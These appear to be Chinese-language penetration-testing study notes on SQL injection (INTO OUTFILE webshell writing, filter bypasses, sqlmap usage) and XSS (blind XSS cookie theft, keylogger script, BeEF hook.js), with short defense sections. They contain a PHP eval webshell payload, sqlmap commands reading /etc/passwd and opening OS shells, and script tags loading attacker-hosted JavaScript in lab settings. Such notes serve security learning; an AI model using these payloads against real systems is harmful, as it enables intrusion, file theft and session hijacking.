- 概述：Mysql支持向外写文件（这里的“外”）是指服务器内部，需要用到mysql select into outfile命令：在MySQL数据库中存在mysql select into outfile命令，该命令的作用是将选择的一行代码写入一个文件中，文件被创建到服务器上。
- into outfile的使用前提：
  - 要知道网站的据对路径，可以通过开源程序，报错信息，phpinfo界面，404界面等一些方式知道
  - 对目录要有写权限，一般image之类的存放图片的目录有写权限
  - 要有mysql file权限（即能否对系统的文件读取和写操作），默认情况下只有root权限有
  - 

- 我们使用into outfile写入一句话木马，文件名为shell2.php
```
' union select 1,"<?php eval($_POST['a']);" into outfile '/var/www/html/shell2.php
```

### SQL注入绕过
- 大小写绕过
  - 概念：大小写绕过用于只针对小写或大写的关键字匹配技术，正则表达式/express/i 大小写不敏感即无法绕过，这是最简单的绕过技术
  ```
  举例：z.com/index.php?page_id=15 uNIoN sELecT 1,2,3,4
  ```

- 替换关键字
  - 这种情况下大小写无法绕过，而且正则表达式会替换或删除select、union这些关键字，如果只匹配一次就很容易绕过
  ```
  举例：z.com/index.php?page_id=-15 UNIunionON SELselectECT 1,2,3,4
  ```
  - 同样是很基础的技术，有些时候甚至构造的更复杂：SeLSeselectleCTecT 
  - 根据程序检测机制，看检测几次，可以使用n+1写

- 使用编码
  - URL编码
    - 在浏览器中输入一个链接，非保留字的字符浏览器会对其URL编码，如空格变为%20、单引号%27、左括号%28、右括号%29，普通的URL编码可能无法实现绕过，需要结合实际场景判断
    - 还存在一种情况URL编码只进行了一次过滤，可以使用两次编码绕过
    - 使用URL编码的前提是，从前端传到后端，浏览器或者服务器要有解码的过程才行
    ```
    1%2527id=1%252f%252a*/UNION%252f%252a%252a/SELECT
    ```
  - 十六进制编码
    - 应用场景：报错注入的时候常用
  - Unicode编码
    - 形式："u"或者是"%u"加上4位16进制Unicode编码
    - 使用前提：前端向后端传递的过程中，有unicode解码的过程才能使用
    ```
    假如对select关键字进行了过滤
    可以对其中几个字母进行unicode编码：se%u006cect
    ```

- 使用注释
  - 常见注释符号：
  ```
  -- ,  /**/ , # , -- -
  ```
  - /**/可以替代空格
  - --后面不加空格，也可以替代空格，但是不能直接跟函数
  ```
  select--database(); // 不报错，但是值为0
  select--1; // 不报错，值为1
  select--1,database(); // 等得到正确的值
  
  # 和 --加空格，是真正的注释
  ```
  - 内联注释
    - 相比普通注释，内联注释用的更多，它有一个特性/*!*/只有MySQL能识别
    ```
    举例：index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3
    mysql> select user_id from users where user_id=1 /*!union*/ /*!all*/ /*!select*/ 2;
    ```

- 等价函数与命令
  - 函数或变量
  ```
  bin() # 二进制
  hex() # 16进制
  bin()、hex() ==> ascii() 

  concat() ==> concat_ws()

  mid(),substr() ==> substring()

  strcmp(str1,str2)
  比较两个字符串，如果这两个字符串相同，返回0，如果第二个字符串小于第一个字符串返回1，反之返回-1

  eg:strcmp('p',0x70) // 返回0
  strcmp() 可以实现字符串和对应的十六进制ascii码的比较
  ```
  - 符号
    - and or 可以用&& || 替换
    - 空格，可以使用如下符号表示其作用：%20 %09 %0a %0b %0c %0d %a0 /**/ 

- 特殊符号
```
select user_id from users
等价于
select+user_id-1+1.from users;
```

### SQL注入防御
- 预编译和绑定变量
```java
String sql = "select id,num from user where id=?";    // 定义sql语句
    PreparedStatement ps = conn.prepareStatement(sql);
    ps.setInt(1,id);    // 设置变量
    ps.executeQuery();    // 执行

```
- 严格检查参数的数据类型，使用安全函数

### SQLmap使用
- 官方网站：http://sqlmap.org/
- 概述：
  - Sqlmap是一款开源的渗透测试工具，可以自动检测和利用SQL注入漏洞以及接入该数据库的服务器。它拥有非常强大的检测引擎，具有多种特性的渗透测试器，通过数据库指纹提取访问底层文件系统并通过外带连接执行命令。
- Sql支持的数据库：
```
MySQL, Oracle, PostgreSQL, Misrosoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase和SAP MaxDB
```
- Sqlmap支持五种不同的注入模式
```
1. 基于布尔的盲注，即可以根据返回页面判断条件真假的注入
2. 基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟句是否执行来判断
3. 基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中
4. 联合查询注入：可以使用union的情况下注入
5. 堆查询注入：可以同时执行多条语句时的注入
```

- 参数详解 
  - Target: 目标
  ```
  1. 目标URL
  参数：-u 或者 --url
  格式：http(s)://targeturl[:port]/[...]
  例如：python sqlmap.py -u "http://www.target.com/..." -f --banner --dbs --users
  注意：这里的url要具体到携带注入点的参数
  eg：http://121.196.62.22:8082/vulnerabilities/sqli/?id=123&Submit=Submit#

  注意：此时仍然不能注入成功，因为页面会自动重定向到登录页面，所以需要--cookie保证sqlmap能够成功进入注入页面
  eg: python sqlmap.py -u "http://121.196.62.22:8082/vulnerabilities/sqli/?id=123&Submit=Submit#" --cookie "cookie值" --batch

  ```
  ```
  2. 从Burp或者WebScarab代理中获取日志
  参数：-l
  功能：可以把Burp proxy或者WebScarab proxy中的日志直接导出来交给sqlmap来逐个检测是否有注入
  ```
  ```
  3. 从文本中获取多个目标扫描
  参数：-m
  说明：文件中保存url格式如下，sqlmap会一个一个检测
  www.geektime1.com/vuln1php?q=student
  www.geektime2.com/vuln2.asp?id=1
  www.geektime3.com/vuln3/id=1*
  ...
  ```
  ```
  4. 从文件加载HTTP请求(常用，推荐)
  参数：-r
  说明：sqlmap可以从一个文本文件中过去http请求，这样就可以跳过设置一些其他参数(比如cookie，POST数据，等等)

  比如：文本文件内容如下：
  POST/students.php HTTP/1.1
  Host:www.geektime.com
  User-Agent:Mozilla/4.0

  id = 1
  ```
  - --batch
    - 功能：sqlmap自动判断，后续所有的y/n的选择
  - Request: 请求设置
  ```
  --method：指定请求方法
  --data：把数据以POST方式提交
  --param：当GET或POST的数据需要用其他字符分割测试参数的时候需要用到此参数--cookie：设置cookie，提交请求的时候附带所设置的cookie
  --load-cookies：从文件获取cookie
  --user-agent：可以使用–user-anget参数来修改
  --headers：可以通过–headers参数来增加额外的http头
  --proxy：设置代理，可以避免本机地址被封禁
  --delay：可以设定两个HTTP(S)请求间的延迟 防止发送过快导致被封ip
  --random-agent：使用–random-agnet参数来随机的从./txt/user-agents.txt中获取。当–level参数设定为3或者3以上的时候，会尝试对User-Angent进行注入。--referer：在请求目标的时候可以自己伪造请求包中的referer
  –-level：参数设定为3或者3以上的时候会尝试对referer注
  ```
  ```
  1. POST请求参数设置
  参数：--data
  作用：此参数是把数据以POST方式提交，sqlmap会像检测GET参数一样检测POST参数
  例子：
  python sqlmap.py -u "http://www.geektime.com/students.php" --data="id=1" -f -- banner --dbs --users
  ```
  ```
  2. 利用正则过滤目标网址
  参数 --scope
  例如：
  python sqlmap.py -l burp_http.log --scope="(www)?\.target\.(com|net|org)"
  ```
  ```
  3. 避免过多的错误请求被屏蔽
  参数：--safe-url, --safe-freq
  说明：有的Web应用程序会在用户多次发送访问错误的请求时屏蔽掉之后的所有请求，这样在sqlmap进行探测或者注入的时候可能造成错误请求而触发这个策略，导致后续无法进行测试
  绕过这个策略有两种方式

  --safe-url：提供一个安全不错误的链接，每隔一段时间都会去访问一下
  --safe-freq：提供一个安全不错误的链接，每次测试请求之后都会再访问一遍安全链接。
  ```
  - Optimization: 优化（很少用到）
  ```
  -o 开启所有优化开关
  ```
  - Injection: 注入
  ```
  -p 参数
  作用：测试指定参数
  --skip: 不想要测试的参数可以通过skip设置跳过
  --dbms: 指定数据库，节省sqlmap的检测时间
  --os: 指定数据库服务系统，节省sqlmap的检测时间
  ```
  - Detection: 探测等级
    - 参数：--level
    - 说明：共有5个等级，默认为1，最大为5，sqlmap使用的payload可以在xml/payload.xml中看到，用户也可以根据相应的格式添加自己的payload
    - 这个参数不仅影响使用哪些payload，同时也会影响测试的注入点，GET和POST的数据都会测试，HTTP Cookie在level为2的时候就会测试，HTTP USer-Agent/Referer头在level为3的时候会测试
    - 推荐使用level3 
  - risk：风险等级
    - 参数：--risk
    - 说明：共4个等级，默认1，建议使用1
    - 共有四个风险等级，默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，3会增加OR语句的SQL注入测试
    - 在有些时候，例如在UPDATE/DELETE的语句中，注入一个OR的测试语句，可能导致更新整个表，造成很大的风险
    - 测试的语句同样可以在xml/payloads.xml中找到，用户也可以自行添加payload
  - 页面比较
    - 参数: --string,--not-string,--regexp,--code
    - 说明：默认情况下sqlmap通过判断返回页面的不同来判断真假，但有时候这会产生误差，因为有的页面在每次刷新的时候都会返回不同的代码，比如页面当中包含一个动态的广告或者其他内容，这会导致sqlmap的误判。
    - 此时用户可以提供一个字符串或者一段正则匹配，在原始页面与真条件下的页面都存在的字符串，而错误页面中不存在的字符串（使用--string参数添加字符串，--regexp添加正则），同时用户也可以提供一段在原始页面与真条件下的页面都不存在的字符串，而错误页面中存在的字符串（--not-string添加）。
    - 用户也可以提供真与假条件返回的HTTP状态码不一样来注入，例如，响应200的时候为真，响应401的时候为假，可以添加参数--code=200
  -  Enumeration：枚举数据 （-a,--all：获得所有信息）
  ```
  1. 标志
  参数：-b,--banner
  功能：获取数据库管理系统的标识
  说明：大多数的数据库系统都有一个函数可以返回数据库的版本号，通常这个函数是version()或者变量@@version，这主要取决于是什么数据库
  ```
  ```
  2. 当前用户
  参数：--current-user
  说明：在大多数据库中可以获取到管理数据的用户
  ```
  ```
  3. 当前数据库
  参数：--current-db
  说明：返还当前连接的数据库
  ```
  ```
  4. 当前用户是否为管理员
  参数： --is-dba
  说明：判断当前的用户是否为管理员，是的话会返回True
  ```
  ```
  5.列出数据库管理用户
  参数：--users
  说明：当前用户有权限读取包含所有用户的表的权限时，就可以列出所有管理用户
  ```
  ```
  6. 列出并破解数据库用户的hash
  参数：--passwords
  说明：当前用户具备读取包含用户密码的表的权限时，sqlmap会现列举出用户，然后列出hash，并尝试破解。
  代码示例：
  python sqlmap.py -u "http://geektime/sqlmap/pgsql/students.php?id=1" --passwords -v1
  ```
  ```
  7. 列出数据库管理员权限
  参数： --privileges
  说明：当前用户具备读取包含所有用户的表的权限时，很可能列举出每个用户的权限，sqlmap将会告诉用户哪个是数据库的超级管理员。也可以用-U参数指定想看哪个用户的权限。
  ```
  ```
  8. 列出数据库管理员角色
  参数：--roles
  说明：当前用户具备读取包含所有用户的表的权限时，很可能列举出每个用户的角色，也可以用-U参数指定想看哪个用户的角色。
  注意：仅适用于oracle
  ```
  ```
  9. 列出数据库系统的数据库
  参数：--dbs
  说明：当前用户具备读取包含所有数据库信息的权限时，即可列出所有的数据库
  ```
  ```
  10. 列出数据库表
  参数：--tables,--exclude-sysdbs,-D
  说明：当前用户具备读取包含所有数据库表信息的权限时，即可列出一个特定数据的所有表。如果不提供-D参数来指定一个数据库的时候，sqlmap会列出数据库所有库的所有表。
  --exclude-sysdbs参数是指可排除系统数据库。
  ```
  ```
  11. 列出数据表中的字段
  参数：--columns,-C,-T,-D
  说明：当前用户具备读取包含所有数据库表信息的权限时，即可列出指定数据库表中的字段，同时也会列出字段的数据类型
  注意：如果没有使用-D参数指定数据库时，默认会使用当前数据库
  ```

  - File system access: 访问文件系统
  ```
  --file-read=RFILE 从后端的数据库管理系统读取文件
  --file-write=WFILE 上传文件到后端的数据库管理系统
  --file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
  ```
  ```
  读取文件案例：
  python sqlmap.py -u "http://127.0.0.1:8080/vulnerabilities/sqli/?
  id=1&Submit=Submit#" --cookie="PHPSESSID=isgvp2rv4uts46jbkb9bouq6ir; 
  security=low" -p id --file-read "/etc/passwd"
  ```
  ```
  写入文件案例
  python sqlmap.py -r 1.txt --level 3 --batch --file-write="D:\Pythono\SQLMap\0930.txt" --file-dest="/var/www/html/0930/txt"
  注意：
  --file-dest的绝对路径后面要加上，上传文件传到服务器后自定义的文件名
  ```
  - Operating system access：访问操作系统
  ```
  -os-cmd=OSCMD  执行操作系统命令
  --os-shell     交互式的操作系统的shell
  --os-pwn       获取一个OOB shell，meterpreter或VNC
  --os-smbrelay  一键获取一个OOB shell，meterpreter或VNC
  --os-bof       存储过程缓冲区溢出利用 
  --priv-esc     数据库进程用户权限提升
  --msf-path=MSFPATH Metasploit Framework  本地的安装路径
  --tmp-path=TMPPATH  远程临时文件目录的绝对路径
  ```
  - 爬取网站URL
  ```
  参数：-crawl
  作用： sqlmap可以收集潜在的可能存在漏洞的连接，后面跟的参数是爬行的深度。此时的URL可以不带参数。
  例子：python sqlmap.py -u "http://127.0.0.1:8080/vulnerabilities/sqli/? id=1&Submit=Submit#" --batch --crawl=3
  ```
  - 定义dump数据的格式
  ```
  参数： --dump-format
  输出的格式可定义为：CSV，HTML，SQLITE
  ```
  - 忽略在会话文件中存储的查询结果
  ```
  参数：--fresh-queries
  说明：忽略session文件保存的查询缓存，重新查询
  ```
  - 自定义输出路径
  ```
  参数：--output-dir
  sqlmap默认把session文件跟结果文件保存在output文件夹下，用此参数可自定义输出路径 例如：-output-dir=/tmp
  ```

## XSS攻击
- XSS漏洞：利用各种标签来插入一些恶意的js语句
- XSS攻击技巧
  - 使用网站编码，跳过网站对特殊符号的限制
   [编码详情](../web/javascript.md#扩展内容1)
  - 当用户执行某个操作的时候，插入js代码，使用事件句柄的方式<br>
  [事件句柄详细查看](../web/javascript.md#扩展内容1)
- XSS攻击防护
  - [HTML实体编码（转义字符）,详情点击查看【有效防止XSS攻击】](../web/html_study.md#文本编辑)
    - 原理：使用HTML实体编码是防止XSS（跨站脚本）攻击的一种常见方法，特别是当直接将用户输入插入到HTML文档中时。HTML实体编码能够防止特殊字符被浏览器解析为代码，从而有效地阻止XSS攻击。

## XSS详解
- 基本概念：
  - 跨站脚本攻击XSS(Cross Site Scripting)，为了不和层叠样式表(Cascading Style Sheets,CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。
  - 恶意攻击者往Web页面里插入恶意脚本（JavaScript代码），当用户浏览该页面时，嵌入Web里面的JS代码会被执行，从而达到恶意攻击用户的目的。
  - XSS攻击针对的时用户层面的攻击。
- 常见场景：
  - 在Web页面上，有一种很常见的功能是：将用户输入的内容输出到页面上。但如果输入的内容是一段经过构造的JS代码，提交之后再次访问这个页面时，用户就会获取该JS代码在浏览器端执行的结果，通过构造其他相应的代码，攻击者可以执行更具危害的操作
- 总结（实现XSS攻击的两个前提）：
  - 能将恶意代码插入网页中
  - 插入到网页中的JS代码能被解析执行

### XSS分类
- 反射型
  - 非持久型
  - 常见的就是在URL中构造，将恶意链接发给目标用户。当用户访问该链接的时候，会像服务器发起一个GET请求来提交带有恶意代码的链接。
  - 造成反射型XSS主要是GET请求
  - 攻击流程：
    - 第一步：黑客发送带有XSS恶意脚本的链接给用户
    - 第二步：用户点击了恶意链接，访问了目标服务器
    - 第三步：目标服务器将XSS同正常页面返回给用户浏览器
    - 第四步：用户浏览器解析了网页中的XSS恶意代码，向恶意服务器发起请求
    - 第五步：黑客从自己搭建的恶意服务器获取用户提交的信息
- 存储型
  - 持久型
  - 常见的就是博客留言板，反馈投诉，论坛评论，将恶意代码和正文都存入服务器，每次访问都会触发恶意代码
- DOM型（特殊反射型）

### 手工测试
```
 也可以触发js代码
```

### XSS盲打
- 概述：
  - XSS盲打是一种攻击场景，也是属于存储型XSS类型
  - 盲打的意思是无法直接在前端看到反馈效果，只有后台能看到输入内容，从前端无法判断是否存在XSS，这种情况下，我们直接往里面插入XSS，然后等待，当管理员看时就会遭到XSS攻击

### XSS键盘记录
```
<script src="http://192.168.0.90:8081/pkxss/rkeypress/rk.js"></script>
```

### XSS平台利用—获取cookie
- 攻击者想要的是进入账号之后的cookie值
- 恶意代码
```
<script>document.write('')</script>
```
- 实验过程
```
目标设备：192.168.0.90:8083
恶意服务器：192.168.0.90：8081

1. 将恶意文件的js代码，提交到xss盲打后台
<script>document.write('')</script>

2.在192.168.0.90:8083登录后台后，代码自动执行，在192.168.0.90:8081的管理后台能看到收集到的cookie信息
ant[uname]=admin; ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; PHPSESSID=7k44l2c1evhp7potr0shc98mmc

3. 在chrome（新浏览器）上打开(http://192.168.0.90:8083/vul/xss/xssblind/admin_login.php)

4. 使用cookie editor 填写收集到的cookie信息，登录

5. 登录成功，试验成功
```
- 获得cookie之后的问题
  - 时间限制，即cookie仅在用户登录网站的时间内有效，一但退出登录，则cookie值无效

### BeEF-XSS
- 概述：
  - BeEF(Brower Exploitation Framework)是一款非常强大的Web框架攻击平台，集成了许多payload，可以通过XSS漏洞配合Javascript脚本和Metasploit进行渗透。基于Ruby语言编写，并且支持图形化界面，操作简单

- 初始化配置：
```
配置文件路径：kali虚拟机
/usr/share/beef-xss/config.yaml

更改内容：
1. 账号密码：
user: ""
passwd: ""

2. 设置监听地址(本机ip)
host: "和kali地址相同即可" // 192.168.98.135

上面都修改好后，保存退出
```
- 登录BeEF
```shell
./beef // 登录BeEF
[13:45:25][*] 1 network interfaces were detected.
[13:45:25][*] running on network interface: 192.168.0.99
[13:45:25]    |   Hook URL: http://192.168.0.99:3000/hook.js
[13:45:25]    |_  UI URL:   http://192.168.0.99:3000/ui/panel  
# UI URL:BeEF登录页面
[13:45:25][*] RESTful API key: 3a6f9f84c50de06a392055d6d8f928974de02787
# 启用攻击的凭证：API key
[13:45:25][!] [GeoIP] Could not find MaxMind GeoIP database: '/var/lib/GeoIP/GeoLite2-City.mmdb'
[13:45:25]    |_  Run geoipupdate to install
[13:45:25][*] HTTP Proxy: http://127.0.0.1:6789

```

- 使用BeEF克隆网站
```
curl -H "content-Type: application/json; charset=UTF-8" -d '{"ulr":"<URL of site to clone>", "mount":"<where to mount>"}' -X POST http://<BeEFURL>/api/seng/clone_page?token=<token>

// <URL of site to clone>  需要克隆的网站
// <where to mount> 克隆页面在服务器的哪个路径访问
// <BeEFURL> 服务器地址
// <token> 服务启动时的beef API key
```

- hook.js的作用
  - 作用：劫持目标程序原有执行流程，添加额外处理逻辑的过程
  - 使用过程模拟：
  ```
  1. 在pikachu的XSS盲打模块上传hook.js脚本文件
  <script src="http://192.168.0.99:3000/hook.js"></script>

  2. 当管理员登录后台后，自动加载hook.js文件

  3. 选择Current Browser -> Commands -> Hooked Domain -> Get Cookie 并点击Execute获取cookie
  ```

### XSS防御绕过
- 过滤不严格
- HTML实体编码默认配置

### XSS安全防御
- 输入检查
- 输出检查
  - HTML实体编码
  - JavaScript编码
  - HttpOnly
  
## 弱口令
- 强口令定义：
  - 长度至少8位
  - 密码要包含大写字母、小写字母、数字、特色符号中的至少3类
  - 密码和用户名无相关性

 